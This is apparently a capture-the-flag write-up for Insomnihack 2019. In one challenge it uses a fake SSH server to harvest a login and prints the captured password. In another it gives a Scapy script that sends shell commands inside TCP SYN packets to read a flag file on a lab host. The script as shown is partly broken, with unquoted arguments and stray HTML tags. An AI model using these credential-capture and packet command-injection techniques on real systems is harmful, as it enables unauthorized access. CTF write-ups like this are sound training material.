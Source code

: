 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

==============

Net1


Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
- - - - - - - - - 
from scapy.all import *

def main(command):

    while True:<br/>
    
        # build the TCPSYN packet with the command as the payload<br/>
        pinger = IP(dst="10.13.37.98")<br/>
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)<br/>
        xsyn = pinger / SYN / command<br/>
        send(xsyn)<br/>
if __name__ == "__main__":<br/>
    main(ls -la)<br/>
 - - - - - - - - - - - -  
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




